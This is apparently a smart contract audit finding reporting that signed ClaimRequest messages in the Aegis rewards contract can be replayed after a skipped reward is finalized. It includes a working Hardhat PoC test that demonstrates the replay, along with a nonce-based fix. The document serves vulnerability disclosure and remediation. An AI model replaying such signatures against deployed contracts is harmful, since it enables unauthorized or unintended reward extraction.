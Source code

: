 Sweet Neon Badger

Medium

# Signed `ClaimRequest` can be replayed after partial fulfillment due to delayed reward finalization


### Summary  
A valid `ClaimRequest` signature that includes multiple reward IDs can be **reused** if **some rewards were not finalized** during the initial claim. Once those rewards become finalized, the same signature can be **replayed** to extract additional rewards.  
This happens because the contract tracks claims **per reward ID**, but does **not bind each signature to a one-time use** via a nonce or message hash.


### Vulnerability Detail  

The claim process currently verifies:
- That `msg.sender == claimer` ✅
- That each reward ID was not claimed before ✅
- That each reward is finalized and non-expired ✅

However, it does **not track** whether the entire signed `ClaimRequest` was already used.

As a result:
1. A user can submit a valid claim signature for rewards `[ID1, ID2]`.
2. If `ID2` is not finalized, the contract will skip it.
3. Later, once `ID2` becomes finalized, the user can **resubmit the same signature**.
4. The contract will now **process ID2**, even though the signature was already used.

This is demonstrated in the following working PoC test:
```ts
// 1. Claim signature for [ID1 (finalized), ID2 (not yet)]
// 2. First call: ID1 claimed, ID2 skipped
// 3. Finalize ID2
// 4. Replay same signature → ID2 claimed now (unexpected)
```


### Impact  
- **One-time-use signatures can be reused**, violating cryptographic intent.
- **Delayed reward finalization enables griefing**, where users exploit skipped items later.
- **Off-chain systems lose synchronization**: same signature seems valid twice.


### Code Snippet  
Tracked claims:
[Link:](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisRewards.sol#L57)
```solidity
mapping(address => mapping(bytes32 => bool)) private _addressClaimedRewards;
```
But no replay tracking for:
```solidity
hashClaimRequest(...) // not stored or checked
```


### PoC
test code
```ts
it('should allow replay of the same claimRequest if one ID was skipped initially (griefing PoC)', async () => {
  const [owner] = await ethers.getSigners();
  const {
    aegisMintingContract,
    aegisMintingAddress,
    aegisRewardsContract,
    aegisRewardsAddress,
    assetContract,
    assetAddress,
    yusdContract,
  } = await loadFixture(deployFixture);

  await aegisMintingContract.grantRole(FUNDS_MANAGER_ROLE, owner);
  await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner);
  await aegisRewardsContract.grantRole(REWARDS_MANAGER_ROLE, owner);
  await aegisMintingContract.setInsuranceFundAddress(ethers.ZeroAddress);

  // 1. Deposit for ID1 (finalized now)
  const snapshot1 = 'griefing-finalized';
  const snapshotId1 = ethers.encodeBytes32String(snapshot1);
  const amount1 = ethers.parseEther('1');
  {
    await assetContract.mint(aegisMintingAddress, amount1);
    const order = {
      orderType: OrderType.DEPOSIT_INCOME,
      userWallet: owner.address,
      beneficiary: ethers.ZeroAddress,
      collateralAsset: assetAddress,
      collateralAmount: amount1,
      yusdAmount: amount1,
      slippageAdjustedAmount: 0,
      expiry: (await time.latest()) + 10000,
      nonce: Date.now(),
      additionalData: encodeString(snapshot1),
    };
    const signature = await signOrder(order, aegisMintingAddress);
    await aegisMintingContract.depositIncome(order, signature);
    await aegisRewardsContract.finalizeRewards(snapshotId1, 0);
  }

  // 2. Deposit for ID2 (not finalized yet)
  const snapshot2 = 'griefing-delayed';
  const snapshotId2 = ethers.encodeBytes32String(snapshot2);
  const amount2 = ethers.parseEther('1');
  {
    await assetContract.mint(aegisMintingAddress, amount2);
    const order = {
      orderType: OrderType.DEPOSIT_INCOME,
      userWallet: owner.address,
      beneficiary: ethers.ZeroAddress,
      collateralAsset: assetAddress,
      collateralAmount: amount2,
      yusdAmount: amount2,
      slippageAdjustedAmount: 0,
      expiry: (await time.latest()) + 10000,
      nonce: Date.now() + 1,
      additionalData: encodeString(snapshot2),
    };
    const signature = await signOrder(order, aegisMintingAddress);
    await aegisMintingContract.depositIncome(order, signature);
    // intentionally not finalized yet
  }

  // 3. Create a claimRequest with both IDs
  const claimRequest = {
    claimer: owner.address,
    ids: [snapshotId1, snapshotId2],
    amounts: [amount1, amount2],
  };
  const signature = await signClaimRequest(claimRequest, aegisRewardsAddress);

  // 4. First claim: only ID1 will be processed
  await expect(aegisRewardsContract.claimRewards(claimRequest, signature)).to.emit(
    aegisRewardsContract,
    'ClaimRewards'
  ).withArgs(owner.address, [snapshotId1], amount1);

  // 5. Finalize ID2
  await aegisRewardsContract.finalizeRewards(snapshotId2, 0);

  // 6. Replay same claimRequest and signature again → Now ID2 will be processed
  await expect(aegisRewardsContract.claimRewards(claimRequest, signature)).to.emit(
    aegisRewardsContract,
    'ClaimRewards'
  ).withArgs(owner.address, [snapshotId2], amount2);
});
```


### Tool Used  
Manual Review

### Recommendation  

Add a nonce to the `ClaimRequest` struct:
[Link:](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/lib/ClaimRewardsLib.sol#L8-L12)
```solidity
struct ClaimRequest {
    address claimer;
    uint256 nonce; // one-time use
    bytes32[] ids;
    uint256[] amounts;
}
```

Track used nonces:
```solidity
mapping(address => mapping(uint256 => bool)) private _usedClaimNonces;
```

Verify:
```solidity
if (_usedClaimNonces[msg.sender][claimRequest.nonce]) revert InvalidNonce();
_usedClaimNonces[msg.sender][claimRequest.nonce] = true;
```

This guarantees that **each signed message is used only once**, regardless of how many reward IDs are claimed at a time.

